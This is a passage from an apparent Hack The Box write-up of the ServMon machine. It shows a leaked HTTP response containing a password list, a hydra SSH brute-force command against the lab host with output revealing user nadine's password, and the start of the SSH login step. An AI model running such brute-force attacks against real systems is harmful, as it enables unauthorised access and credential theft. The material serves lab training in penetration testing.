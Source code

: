 Response
```
HTTP/1.1 200 OK
Content-type: text/plain
Content-Length: 156
Connection: close
AuthInfo: 

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

We got some credential lists,or maybe a password list.


### Privilege Escalation - Nadine

After we got the credential list, the Brute force attack using `hydra` can be a solution to find the real password for `Nadine` or `Nathan`.

```
root@twsterlab:/twseptian/HTB/boxes/servmon# hydra -L users.txt -P password.txt 10.10.10.184 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-18 10:52:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 14 tasks per 1 server, overall 14 tasks, 14 login tries (l:2/p:7), ~1 try per task
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-18 10:52:45
```

![05](/assets/images/htb-machine-servmon/05.png)

username: `nadine`
password: `L1k3B1gBut7s@W0rk`

After we got the username and password, let's access the server using ssh services.
